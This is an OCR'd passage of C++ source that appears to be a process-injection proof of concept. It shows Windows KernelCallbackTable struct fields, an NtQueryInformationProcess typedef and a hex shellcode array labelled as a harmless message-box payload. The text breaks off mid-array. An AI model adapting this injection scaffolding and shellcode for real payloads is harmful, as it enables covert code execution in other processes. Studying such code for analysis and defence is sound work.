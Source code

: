 ```cpp
  ULONG_PTR __ClientLoadOLE;
  ULONG_PTR __ClientRegisterDragDrop;
  ULONG_PTR __ClientRevokeDragDrop;
  ULONG_PTR __fnINOUTMENUGETOBJECT;
  ULONG_PTR __ClientPrinterThunk;
  ULONG_PTR __fnOUTLPCOMBOBOXINFO2;
  ULONG_PTR __fnOUTLPSCROLLBARINFO;
  ULONG_PTR __fnINLPUAHDRAWMENU2;
  ULONG_PTR __fnINLPUAHDRAWMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU3;
  ULONG_PTR __fnINOUTLPUAHMEASUREMENUITEM;
  ULONG_PTR __fnINLPUAHDRAWMENU4;
  ULONG_PTR __fnOUTLPTITLEBARINFOEX;
  ULONG_PTR __fnTOUCH;
  ULONG_PTR __fnGESTURE;
  ULONG_PTR __fnPOPTINLPUINT4;
  ULONG_PTR __fnPOPTINLPUINT5;
  ULONG_PTR __xxxClientCallDefaultInputHandler;
  ULONG_PTR __fnEMPTY;
  ULONG_PTR __ClientRimDevCallback;
  ULONG_PTR __xxxClientCallMinTouchHitTestingCallback;
  ULONG_PTR __ClientCallLocalMouseHooks;
  ULONG_PTR __xxxClientBroadcastThemeChange;
  ULONG_PTR __xxxClientCallDevCallbackSimple;
  ULONG_PTR __xxxClientAllocWindowClassExtraBytes;
  ULONG_PTR __xxxClientFreeWindowClassExtraBytes;
  ULONG_PTR __fnGETWINDOWDATA;
  ULONG_PTR __fnINOUTSTYLECHANGE2;
  ULONG_PTR __fnHkINLPMOUSEHOOKSTRUCTEX2;
} KERNELCALLBACKTABLE;

// NtQueryInformationProcess
typedef NTSTATUS(NTAPI* pNtQueryInformationProcess)(
  IN HANDLE ProcessHandle,
  IN PROCESSINFOCLASS ProcessInformationClass,
  OUT PVOID ProcessInformation,
  IN ULONG ProcessInformationLength,
  OUT PULONG ReturnLength OPTIONAL
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
```